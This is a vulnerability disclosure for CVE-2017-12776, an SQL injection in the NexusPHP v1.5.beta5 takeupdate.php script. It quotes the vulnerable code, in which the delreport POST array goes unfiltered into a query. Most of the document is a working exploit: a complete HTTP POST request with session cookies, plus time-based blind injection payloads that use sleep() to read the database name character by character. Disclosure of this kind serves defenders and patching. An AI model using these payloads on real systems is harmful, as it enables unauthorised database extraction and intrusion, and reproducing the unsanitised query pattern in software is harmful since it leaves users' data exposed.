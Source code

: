 ## nexusphp  takeupdate.php sqli
###CVE-2017-12776
### powered by lijiangtao  from Anyuntec
### version: v1.5.beta5.20120707
### Download link:https://sourceforge.net/projects/nexusphp/
##  Vulnerability details
#### /nexusphp.v1.5.beta5.20120707/takeupdate.php   Line 14

```
if ($_POST['setdealt']){
$res = sql_query ("SELECT id FROM reports WHERE dealtwith=0 AND id IN (" . implode(", ", $_POST[delreport]) . ")");qlerr(__FILE__, __LINE__);
$user = mysql_fetch_array($r);
```

$_POST[delreport]    has not been filtered to cause injection

###  EXP：

```
POST /takeupdate.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 88
Cookie: c_secure_uid=MQ%3D%3D; c_secure_pass=e52e548e638c2515f3f4c4ff1cee02ab; c_secure_ssl=bm9wZQ%3D%3D; c_secure_tracker_ssl=bm9wZQ%3D%3D; c_secure_login=bm9wZQ%3D%3D
X-Forwarded-For: 10.0.0.1
Connection: close
Upgrade-Insecure-Requests: 1

setdealt=111&delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))<110,0,5 )) %23 
```

delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))<110,0,5 )) %23 

The page will be delayed for 5 seconds  

delreport[0]=11) or sleep( if(ascii(substr(database(),1,1))=110,0,5 )) %23 

The page will be delayed for 0 seconds  







